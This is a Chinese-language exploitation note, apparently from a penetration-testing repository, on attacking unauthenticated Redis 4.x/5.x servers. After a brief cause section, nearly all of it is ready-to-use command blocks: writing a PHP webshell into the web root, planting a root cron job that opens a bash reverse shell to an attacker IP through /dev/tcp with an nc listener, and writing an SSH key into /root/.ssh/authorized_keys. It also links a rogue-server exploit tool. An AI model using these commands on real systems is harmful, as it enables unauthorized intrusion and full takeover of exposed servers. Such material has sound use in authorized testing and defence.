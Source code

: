 

# redis

## Redis 4.x/5.x 未授权访问

**漏洞成因：**

- Redis绑定在0.0.0.0:6379,且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网

- 没有设置密码认证（默认为空）或者弱密码，可以免密码登录redis服务

**利用方式一：**

利用Redis自身的提供的config命令，写入webshell到网站根目录

```bash
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar -zxvf redis-2.8.17.tar.gz && cd redis-2.8.17
make
cd src
#进入交互
./redis-cli -h redis-ip -p 6379
config set dir /var/www/html
config set dbfilename redis.php
(key *)
set x "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
save
```

**工具：https://github.com/n0b0dyCN/redis-rogue-server.git**

**利用方式二：**

nc反弹，写入定时任务执行命令反弹shell

```bash
nc -lvvp 8888
#进入交互
./redis-cli -h redis-ip -p 6379
set xx "\n\n* * * * * bash -i >& /dev/tcp/攻击机ip/8888 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

**利用方式三：**

写入ssh公钥用ssh登录

```bash
ssh-ketgen -t rsa
(echo -e"\n";cat id_rsa.pub;echo -e "\n")>key.txt
cat key.txt | ./redis-cli -h redis-ip -x set crack
#进入交互
config get dir	#获取redis备份路径
config set dir /root/.ssh	#更改redis备份路径为ssh公钥存放目录
config set dbfilename authorized_keys	#设置上传公钥的备份文件名字为authorized_keys
save
```
